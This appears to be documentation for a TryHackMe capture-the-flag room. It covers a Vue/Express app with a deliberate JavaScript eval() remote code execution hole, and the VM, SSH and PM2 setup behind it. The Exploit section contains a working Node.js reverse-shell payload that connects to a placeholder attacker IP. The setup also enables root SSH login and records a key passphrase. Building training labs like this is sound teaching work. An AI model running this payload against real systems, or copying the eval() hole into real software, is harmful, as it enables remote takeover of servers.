



# Documentation

This is the documentation for the TryHackMe room [ATdITS](https://tryhackme.com/jr/atdits). It contains all the information about the VM, the backend and the frontend.


- [Documentation](#documentation)
  - [Frontend](#frontend)
    - [UI](#ui)
    - [Usage](#usage)
  - [Backend](#backend)
    - [Vulnerability](#vulnerability)
    - [Exploit](#exploit)
  - [VM](#vm)
    - [Base Image](#base-image)
    - [Virtualbox](#virtualbox)
    - [SSH](#ssh)
      - [SSH Setup](#ssh-setup)
      - [SSH Port Forwarding](#ssh-port-forwarding)
      - [SSH Key](#ssh-key)
      - [SSH Key Login](#ssh-key-login)
    - [SCP](#scp)
    - [PM2](#pm2)
      - [PM2 Setup](#pm2-setup)
      - [PM2 Backend](#pm2-backend)
      - [PM2 Frontend](#pm2-frontend)
      - [PM2 Service](#pm2-service)
  
---
## Frontend
The Frontend was made with the Vue3 Framework and Element Plus UI library.  
It's only purpose is to send the user input to the backend.  
To simplify the REST communication the axios library was used.  
### <ins>UI</ins>
The UI is designed to immediately show the user what backend vulnerabilities are to be expected.  
>  
To the user it's presented as a site to return a greeting of their choice.  
There are multiple hints on the page, for example that the backend will evaluate the text (JavaScript eval() vulnerability)   or the popover that states that the string needs to be encased with quotation marks. This leads the user to knowing that its some kind of remote code execution vulnerability.  
### <ins>Usage</ins>
>When the user imputs the string with quotation marks, the backend will return the greeting.  
  

>Otherwise the user will find an error in the console stating that the imput (in this case World) is not defined.  
This shows that the backend is vulnerable to a remote code execution vulnerability.  
  

---
## Backend
The backend was made with the Express Framework and NodeJS.
For the backend we modified an existing example to make it fit for our needs.
### <ins>Vulnerability</ins>
The backend is vulnerable to a remote code execution vulnerability through the eval() function by that the backend will try to execute the user input as JavaScript code.  
So for example if the user inputs `console.log("Hello World")` the backend will log `Hello World` to the console.

---

### <ins>Exploit</ins>
If you input the following code in the frontend, you will get a reverse shell to your machine, as the will execute the code within the eval() function.
``` JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>As import statements will not work with the eval() function the require() function is needed to import the net and child_process modules.  
The net module is used to create a socket and the child_process module is used to execute the bash shell.  
The socket is then connected to the port you are listening on and the bash shell is executed.
All the output of the shell is then piped to the socket and all the input from the socket is piped to the shell.  
By this we can execute commands from our own machine on the backend machine as the user that is running the backend.

---
## VM
### <ins>Base Image</ins>
For the VM we used a Ubuntu Server 20.04 Image. We chose Ubuntu over Windows because we already had experience setting up Linux servers. We choose the Ubuntu Server Image over the normal image because we don't need the GUI. Therefore we can save some resources over the normal image.

---
### <ins>Virtualbox</ins>
We used Virtualbox to run and configure the VM. The setup is pretty straight forward. You choose a name for the VM, the image, the credentials for the root user, the amount of memory and disk space you want to allocate to the VM, and you're done.  
After the VM is created you can start it and create a new normal user. We chose the username `paul` for the user.

After that it is best to update the VM. You can do that by running `sudo apt update && sudo apt upgrade -y`.

---
### <ins>SSH</ins>
Because we want to connect to the VM with SSH we need to configure SSH.

#### <ins>SSH Setup</ins>
To enable SSH on the VM you need to install the `openssh-server` package. You can do that by running `sudo apt install openssh-server`. After that you need to change the port from `22` to `187`. You can do that by editing the `/etc/ssh/sshd_config` file. You need to change the line `Port 22` to `Port 187`. We also wanted, that you can only connect to the VM with the user `root` and not with the user `paul`. Therefore we added the line `DenyUser paul` to the file. Another thing we changed, was the line `PermitRootLogin prohibit-password` to `PermitRootLogin yes`.  

After that you need to save and restart the SSH service. You can restart the ssh by running `sudo systemctl restart ssh`.

#### <ins>SSH Port Forwarding</ins>
To connect to the VM with SSH you need to create a port forwarding rule in Virtualbox. You can do that by going to the settings of the VM and clicking on the `Network` tab. Then you click on `Advanced` and then on `Port Forwarding`. Then you click on the `+` button and add a new rule. You can choose the name you want for the rule. We chose `SSH`. Then you choose the protocol `TCP` for the host-ip enter `127.0.0.1` and set the host port. Because we change the default port to `187` enter `187` in the field. The guest port is `187`. You can leave the IP address empty. Then you click on `OK` and you're done.  

**Note** You have to restart the VM after you add the port forwarding rule.  

#### <ins>SSH Key</ins>

Also we want to allow connect to the VM only with the private key.
Therefore we need to create a new SSH key pair. You can do that by running `ssh-keygen -t rsa -b 4096 -f id_rsa`. You can choose the name you want for the key pair. We chose `id_rsa`. Also you can choose the passphrase you want for the private key. We chose `felix1`.  

After that you need to copy the public key to the VM. You can do that by running `ssh-copy-id -p 187 -i <Path to private key> root@<Ip of the VM>` and enter the password for the root user.


#### <ins>SSH Key Login</ins>
To only allow login with the private key we need to change the SSH configuration. You can do that by editing the `/etc/ssh/sshd_config` file.  
Add `PasswordAuthentication no` to the file.  
After that you need to save and restart the SSH service. You can restart the ssh by running `sudo systemctl restart ssh`.

**Note** After you have restarted the ssh service you can't login with the password through ssh anymore. You can only login with the private key.

---
### SCP
Because we need to copy files to the VM we need to run scp.
It is best to zip the folders you want to copy. After you zipped to folders you can copy them to the VM with scp. You can do that by running `scp -P 187 -i <Path to the private key> <Path to zip file> root@<Ip of the VM>:<Path to the folder you want to copy the zip file to>`.  
You need to enter the passphrase for the private key.

---
### PM2 
We used PM2 to run the backend and the frontend. PM2 is a process manager for NodeJS applications. We used to that when the VM is started the backend and the frontend are started automatically.

#### <ins>PM2 Setup</ins>
Because we want to use PM2 as the user `paul` it is important to change the user to `paul`. You can do that by running `su paul` and enter the password for the user `paul`.  
To install PM2 you need to run `npm install pm2 -g`. This installs PM2 globally. 

**Note** You need to install NodeJS and NPM before you can install PM2. You can install NodeJS and NPM by running `sudo apt install nodejs npm -y`.

#### <ins>PM2 Backend</ins>
To run the backend with PM2 you need to change the directory to the backend directory. You can do that by running `cd /home/paul/backend`.
After that run `npm install` to install all the dependencies.
To run the backend with PM2 you need to run `pm2 start index.js --name backend`. This starts the backend with PM2 and names it `backend`.

#### <ins>PM2 Frontend</ins>
To run the frontend with PM2 you need to change the directory to the frontend directory. You can do that by running `cd /home/paul/frontend`.
After that run `npm install` to install all the dependencies.
To run the frontend it is important to first build the frontend. You can do that by running `npm run build`. After that you can run the frontend with PM2 by running `pm2 server /dist/ --name frontend --spa`. This starts the frontend with PM2 and names it `frontend`.

#### <ins>PM2 Service</ins>
To start the backend and the frontend automatically when the VM is started we need to create a systemd service. You can run `pm2 startup systemd` to create the service. After that you need you will get a command. You need to run that command. After that you can save the current PM2 configuration by running `pm2 save`.

Now the backend and the frontend are started automatically when the VM is started.

---
